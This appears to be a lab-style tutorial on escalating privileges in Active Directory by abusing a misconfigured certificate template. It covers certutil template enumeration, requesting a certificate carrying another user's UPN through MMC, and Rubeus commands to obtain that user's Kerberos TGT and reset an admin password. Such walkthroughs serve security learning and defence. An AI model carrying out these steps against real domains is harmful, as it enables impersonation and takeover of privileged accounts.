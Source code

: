 Active Directory Certificate Services (AD CS) is Microsoft's PKI solution integrated into Active Directory, used for encrypting files, verifying digital signatures, and user authentication. Unlike public CAs, AD CS can issue certificates internally, which can be used for internal applications without internet access.<br>
The diagram below shows what the flow for certificate requests and generation looks like:

![6abc4f005b619e77d22020817efcd569](https://github.com/user-attachments/assets/3ba2536a-e948-4c2f-8574-ba64bc653edd)<br>



Before we dive deeper into certificate abuse, some terminology:

> PKI - Public Key Infrastructure is a system that manages certificates and public key encryption<br>
> AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers<br>
> CA - Certificate Authority is a PKI that issues certificates<br>
> Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA<br>
> CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate<br>
> EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used<br>


**Certificate template enumeration:**

```
certutil -v -template > cert_templates.txt
```

the outpute of this file may be difficult to read but we are looking for some indicators will tell us that one of the templates is vulnerable. THere is 3 of them to generate a malicious certificate.

1) *Parameter 1: Relevant Permissions*

  We are essentially looking for a template where our user has either the ```Allow Enroll``` or ```Allow Full Control``` permission. You will probably never find a certificate where you have the Allow Full Control permission. However, if you do, congratulations! You can misconfigure the template yourself to make it vulnerable! But for now, let's focus on Allow Enroll.<br>
the *cert_templates.txt* contains the *Allow Enroll* permission setting to *Domain Users* 
  ```
 Allow Enroll	LUNAR\Domain Users
```
  
3) *Parameter 2: Client Authentication*
   To ensure a certificate is suitable for Kerberos authentication, check for the ```Client Authentication``` Extended Key Usage (EKU) in the certificate templates. This EKU allows the certificate to be used for client authentication.
   
5) *Parameter 3: Client Specifies SAN*
  ensure the certificate template allows you to specify the Subject Alternative Name (SAN). Look for the ```CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT``` property flag set to ```1```, indicating you can control the SAN. If a template meets all required conditions, including this SAN capability, you could escalate to Enterprise Admin rights with the right setup.<br>
**Impersonation via SAN:**
    > When a UPN is included in the SAN field of a certificate, it allows the certificate to be associated with a specific user account.<br>
    > If an attacker can obtain a certificate with the UPN of a target account in the SAN field, they can potentially impersonate that user.<br>
    > This certificate can be used in authentication protocols like Kerberos or mutual TLS, where the identity of the user is validated based on the certificate.<br>
   > The system will trust the certificate as if it was issued legitimately to the user, allowing the attacker to access resources and perform actions as if they were the target user.<br>

**UPN** ```Is the username used to log into a domain, formatted as username@domain.com```<br>

**Generating a malicious certificate**

Now that we identified a certificate template that we can exploit, it is time to generate the certificate request.<br>
Here’s the steps for requesting and exporting a certificate using MMC:
```
   1 Open MMC:
        Type mmc in a Run window and press Enter.

   2 Add Certificates Snap-in:
        Click File -> Add/Remove Snap-in...
        Select Certificates and click Add.

  3 Request a New Certificate:
        Expand Certificates -> Personal.
        Right-click on Personal, select All Tasks, then click Request New Certificate...

   4 Proceed with Request:
        Click Next twice to proceed with default CA settings.

   5 Provide Certificate Details:
        Click More information is required to enroll this certificate  (the vulnarable one).

   6 Configure Certificate Properties:
        Change Subject name Type to Common Name and provide the desired certificate name.
        Change Alternative name Type to User principal name (UPN) and provide the UPN of the account you wish to impersonate (e.g., svc.gitlab@lunar.eruca.com).

   7 Enroll the Certificate:
        Click OK to add properties.
        Complete the certificate enrollment.

   8 Export the Certificate:
        Right-click the certificate under Personal -> Certificates.
        Select All Tasks, then click Export...
        Follow the prompts to export, ensuring to export the private key as well.
        Choose PKCS #12 (.pfx) format and set a password for the private key.
        Save the certificate to a file.
```


**User impersonation through a certificate**
<br>

Now we can finally impersonate a user. To perform this, two steps are required:
   > Use the certificate to request a Kerberos ticket granting ticket (TGT).<br>
   > Load the Kerberos TGT into your hacking platform of choice(we will use Rubues).

We will use the following command to request the TGT:<br>
```
Rubeus.exe asktgt /user:<UserHavingAdminAccessToImpersonate> /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:<DomainName> /dc:<IP of domain controller>
```
<br>

| Option | Description |
|---|---|
| /user | Specifies the user that we will impersonate and must match the UPN for the certificate we generated. |
| /dc | The IP of the domain controller where we are requesting the TGT from. Usually it's best to select a DC that has a CA service running. |

To know that the CA service running or not you can use this command ```certutil -ping <DomainControllerName>```<br>
![Screenshot from 2024-08-31 02-40-05](https://github.com/user-attachments/assets/792f230c-79ce-4917-8303-1fe6c8b61167)


NOw we have an administrative TGT, we can change password of an admin user to take over his account or do ```runas``` command.
```
Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:<MachineHaveCARunning> /targetuser:<DomainName>\<usernameWeChangeHisPassword>
```
Finally, we could use ```runas /user:<DominName>\<usernameWeChangedHisPassword> cmd.exe```
   
    
